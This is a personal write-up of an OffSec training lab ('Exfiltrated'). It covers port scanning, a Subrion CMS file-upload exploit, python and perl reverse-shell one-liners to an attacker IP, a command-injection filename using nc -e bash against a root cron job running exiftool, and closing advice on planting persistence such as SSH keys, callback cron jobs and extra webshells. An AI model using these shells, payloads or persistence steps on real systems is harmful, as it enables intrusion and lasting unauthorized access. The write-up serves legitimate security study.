





# Exfiltrated

- **Author:** Julien Bongars
- **Date:** 2026-02-23 04:20:17
- **Path:** /home/julien/.hacklas/targets/track-tjnull/Exfiltrated

---

link = https://portal.offsec.com/machine/exfiltrated-17398/overview/details
ip = 192.168.114.163

# Description

In this lab, we will exploit the target through an authenticated file upload bypass vulnerability in Subrion CMS that leads to remote code execution. We will then exploit a root cron job via a script running exiftool every minute.

- admin hacking
- file upload
- Subrion CMS with RCE
- cron job that uses exiftool

# Port scanning

**rustscan**

```bash
rustscan -a "$IP_ADDRESS" -ulimit 5000 -- -sC -sV -oA "/home/julien/.hacklas/targets/track-tjnull/Exfiltrated/nmap/quick"
```

**nmap**

```bash
nmap -sC -sV -p- -oA "/home/julien/.hacklas/targets/track-tjnull/Exfiltrated/nmap/full" "$IP_ADDRESS"

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH6PH1/ST7TUJ4Mp/l4c7G+TM07YbX7YIsnHzq1TRpvtiBh8MQuFkL1SWW9+za+h6ZraqoZ0ewwkH+0la436t9Q+2H/Nh4CntJOrRbpLJKg4hChjgCHd5KiLCOKHhXPs/FA3mm0Zkzw1tVJLPR6RTbIkkbQiV2Zk3u8oamV5srWIJeYUY5O2XXmTnKENfrPXeHup1+3wBOkTO4Mu17wBSw6yvXyj+lleKjQ6Hnj
e7KozW5q4U6ijd3LmvHE34UHq/qUbCUbiwY06N2Mj0NQiZqWW8z48eTzGsuh6u1SfGIDnCCq3sWm37Y5LIUvqAFyIEJZVsC/UyrJDPBE+YIODNbN2QLD9JeBr8P4n1rkMaXbsHGywFtutdSrBZwYuRuB2W0GjIEWD/J7lxKIJ9UxRq0UxWWkZ8s3SNqUq2enfPwQt399nigtUerccskdyUD0oRKqVnhZCjEYfX3qOnlAqejr3Lpm8nA31pp6lrKNAmQEjdSO8Jxk04O
R2JBxcfVNfs=
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI0EdIHR7NOReMM0G7C8zxbLgwB3ump+nb2D3Pe3tXqp/6jNJ/GbU2e4Ab44njMKHJbm/PzrtYzojMjGDuBlQCg=
|   256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDCc0saExmeDXtqm5FS+D5RnDke8aJEvFq3DJIr0KZML
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
| http-robots.txt: 7 disallowed entries
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 09BDDB30D6AE11E854BFF82ED638542B
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

full scan did not lead to any differences in output

# Enumeration

vhost enumeration came back blank

feroxbuster

## http://exfiltrated.offsec/panel/ 80

redirect to `exfiltrated.offsec`

There is a website with link to admin




I have access by guessing password



Have a version number for CRM - Subrion 4.2.1

# Foothold

## CVE-2025-56556

Maybe this CVE?: https://nvd.nist.gov/vuln/detail/CVE-2025-56556

link: https://github.com/intelliants/subrion/issues/913

> Improper Access Control on SQL Query Execution Tool Allows Privilege Escalation and Database Takeover #913
>
> Synopsis
> The Subrion CMS provides a built-in Run SQL Query feature under the admin panel, which is accessible to users with Administrator and Moderator roles. While moderators are expected to have limited capabilities, it was discovered that moderators are able to execute unrestricted SQL queries, including Data Definition Language (DDL) and privileged operations.
>
> Impact
> An attacker with Moderator-level access can:
>
>     Escalate privileges to full MySQL root-equivalent access
>     Add or remove users in the database
>     Delete entire database tables
>
> Recommendation
>
>     Enforce Role-Based Query Restrictions:
>     Restrict the types of SQL queries that Moderator roles can execute via the SQL Tool. These roles should not be allowed to execute high-privilege queries such as: CREATE USER, GRANT, DROP USER, DROP TABLE etc. These queries can be abused to create malicious users with full database access or to delete critical users and data.
>
>     Implement a Whitelist-Based Query Filter:
>     Allow only a predefined set of safe SQL statements (e.g., SELECT, INSERT, UPDATE, SET, WHERE, ORDER BY, GROUP BY, LIMIT, !=, LIKE).
>
> Affected version
>
>     Subrion CMS 4.2.1

following walkthrough we get to a Database page



Running this command:-

```sql
CREATE USER 'attacker'@'localhost' IDENTIFIED BY 'attacker';
GRANT ALL PRIVILEGES ON subriondb.* TO 'attacker'@'localhost';
FLUSH PRIVILEGES;
```

Seems to be stuck. Going to try something else


## CVE-2018-19422

Link: https://www.exploit-db.com/exploits/49876

modification to script

```py
url_login = 'http://exfiltrated.offsec/panel/'
url_upload = url_login + 'uploads/read.json'
url_shell = url_login +  'uploads/'
username = "admin"
password = "admin"
```

there is a full poc



we have a shell

# Pivot

We get dropped into an environment that is very unstable. Cannot get a reverse shell.

Some creds

```bash
/etc/passwd
coaran:x:1000:1000::/home/coaran:/bin/bash
```

yea this is some fake shell or something. Going to try a callback instead...

```bash
# not working
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.234",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

not working. Trying various commands. Unless I'm supposed to enumerate with this not sure.

-- break --

```bash
# got a shell with this
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.234:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

there is mariadb and service

```bash
accountsservice         
mariadb-client-10.3     
mariadb-client-core-10.3
mariadb-common          
mariadb-server-10.3     
mariadb-server-core-10.3
```

struggling to find the db credentials...

# Escalation

Found this in /opt/image-exif.sh

416 │ * * * * * root bash /opt/image-exif.sh

```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename;
do
    exiftool "$IMAGES/$filename" >> $LOGFILE
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

I tried the following command to take advantage of escaping

```bash
touch '$(nc 192.168.45.234 4443 -e bash).jpg'
```

I noticed this file was generated in `/opt/metadata/aaaaaaa`

```txt
www-data@exfiltrated:/opt/metadata$ cat 060fba0a1d
ExifTool Version Number         : 11.88
File Name                       : $(nc 192.168.45.234 4443 -e bash).jpg
Directory                       : /var/www/html/subrion/uploads
File Size                       : 0 bytes
File Modification Date/Time     : 2026:02:24 20:56:48+00:00
File Access Date/Time           : 2026:02:24 20:56:48+00:00
File Inode Change Date/Time     : 2026:02:24 20:56:48+00:00
File Permissions                : rw-r--r--
Error                           : File is empty
ExifTool Version Number         : 11.88
File Name                       : hello.jpg
Directory                       : /var/www/html/subrion/uploads
File Size                       : 0 bytes
File Modification Date/Time     : 2026:02:24 20:54:11+00:00
File Access Date/Time           : 2026:02:24 20:55:01+00:00
File Inode Change Date/Time     : 2026:02:24 20:54:11+00:00
File Permissions                : rw-r--r--
Error                           : File is empty
```

doing another approach..

checking the version number for `exiftool -ver`

```bash
www-data@exfiltrated:/tmp$ exiftool -ver
11.88
```

I found this on searchsploit

```bash
ExifTool Djvu Code Execution - Paper | docs/english/49881-exiftool-djvu
```

there is this poc: https://github.com/convisolabs/CVE-2021-22204-exiftool

Managed to get root

```bash
root@exfiltrated:~# cd /root
root@exfiltrated:~# whoami
root
root@exfiltrated:~# ifconfig
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.114.163  netmask 255.255.255.0  broadcast 192.168.114.255
        ether 00:50:56:ab:88:60  txqueuelen 1000  (Ethernet)
        RX packets 19838  bytes 4507899 (4.5 MB)
        RX errors 0  dropped 183  overruns 0  frame 0
        TX packets 9204  bytes 7724593 (7.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 748  bytes 59384 (59.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 748  bytes 59384 (59.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@exfiltrated:~# ls
proof.txt  snap
root@exfiltrated:~# cat proof.txt
44cd7aa4ce4b458d4aef53430676084a
root@exfiltrated:~# cd /home/coaran/
root@exfiltrated:/home/coaran# ls
local.txt
root@exfiltrated:/home/coaran# cat local.txt
f099ae63f63fd4bde7786d4473661d36
root@exfiltrated:/home/coaran#
```



# Creds

admin dashboard = admin:admin

-

# Retro

## What went Wrong

### Wrong CVE for Web

got a little carried away with wrong CVE for CRM to get RCE through the db shell when I should have been enumerating other things. I think probably should give it like 20mns and then try other things in parallel. Use pomodoro timer maybe.

### Could not get reverse shell for www-data

Was unable to get a reverse shell to work because I guess exploit I was using didn't give me a full shell. Learned later on to use internal-all-the-things and enumerate tooling properly. Basically should just spray and pray.

### Did not think to check version on `exiftool` or tool tocuched by root

I didn't think to check the version and had to be nudged by Claude. Will add this to checklist in the future

#!TODO: update checklist for priv escalation

## What went right

### Managed to do the web Enumeration basically on my own

### Always be scanning

I was always running something in the background, my computer was never idle

### Found the cron job with /opt/script.sh almost immediately

I found the attack chain almost immediately. I didn't fully commit in the beginning because I wasn't sure if it was even possible to jump from www-data to root so ignored to find db password. But only like 20 mins. I came back. The only thing was I looked at gtfobins for a RCE but there was only read/write so that tripped me. I thought I could escape and wasted a bit of time on some base64 stuff but otherwise I think I got it.

### Pushed through to the end

because Trying to get back that shell would have been a pain

## Lessons

- you can escape single quotes with `'\''`
- remember on a lot of systems, `python` is named `python3`
- It's better to test one link at a time. For instance, upload shell.php and then use shell.php to make a callback. Don't always upload backdoor.php and assume it will work on the first try. For more complicated exploits especially.

> Before you enumerate, secure your access:
>
> Drop an SSH key if you can write to .ssh/authorized_keys
> Create a cron job that calls back to you
> Add a second webshell in a different location
> Note any credentials you find immediately
